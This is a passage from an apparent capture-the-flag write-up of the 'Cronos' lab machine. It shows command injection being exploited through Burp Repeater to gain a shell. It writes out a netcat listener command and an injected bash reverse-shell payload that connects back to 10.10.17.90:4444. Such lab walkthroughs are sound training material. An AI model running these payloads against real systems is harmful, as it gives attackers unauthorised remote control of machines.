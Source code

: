 And this indicates that it is indeed vulnerable to command injection. To spawn a shell using this interface, we first start a netcat listener using:

```bash
nc -nvlp 4444
```

![Untitled](Cronos%20ba0eec374310446694a6b59047f66a60/Untitled%2012.png)

And we then use Burp to intercept the payload:

![Untitled](Cronos%20ba0eec374310446694a6b59047f66a60/Untitled%2013.png)

We can see that the command and hosts are sent as parameters of the request and from command injection we know that this is likely run from the command line as it is. Therefore we can send the request to repeater and change the parameters to: 

```bash
command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.17.90/4444+0>%261'%26host=
```

When we send the request, we see that we have shell on our listener:

![Untitled](Cronos%20ba0eec374310446694a6b59047f66a60/Untitled%2014.png)
